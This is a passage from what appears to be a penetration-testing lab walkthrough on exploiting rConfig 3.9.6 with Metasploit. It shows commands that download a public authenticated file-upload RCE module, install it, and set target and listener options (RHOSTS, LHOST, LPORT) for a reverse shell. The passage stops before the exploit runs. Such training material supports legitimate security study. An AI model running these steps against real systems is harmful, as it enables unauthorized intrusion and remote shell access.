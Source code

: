 **Module Selection Criteria:**
- **Target specificity**: Matches exact version
- **Reliability rank**: Good to excellent ranking
- **Functionality**: Provides shell access
- **Prerequisites**: Authentication requirements

### Step 5: Advanced Exploit Research

**GitHub Repository Search:**
```bash
# Search pattern
"rConfig 3.9.6 exploit metasploit github"
```

**Manual Module Installation:**
```bash
# Locate MSF directories
locate exploits | grep metasploit

# Typical MSF path
/usr/share/metasploit-framework/modules/exploits

# Download and install custom module
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/master/modules/exploits/linux/http/rconfig_vendors_auth_file_upload_rce.rb

# Copy to appropriate directory
cp rconfig_vendors_auth_file_upload_rce.rb /usr/share/metasploit-framework/modules/exploits/linux/http/
```

**Metasploit Updates:**
```bash
# Update package manager
apt update && apt install metasploit-framework

# Reload MSF modules
msfconsole -x "reload_all"
```

## Exploiting rConfig - Practical Example

### Step 1: Module Selection and Configuration

**Load the Exploit:**
```bash
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

**View Module Options:**
```bash
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > show options
```

**Required Configuration:**
```bash
set RHOSTS 10.129.201.101
set RPORT 443
set SSL true
set LHOST 10.10.14.111
set LPORT 4444
```
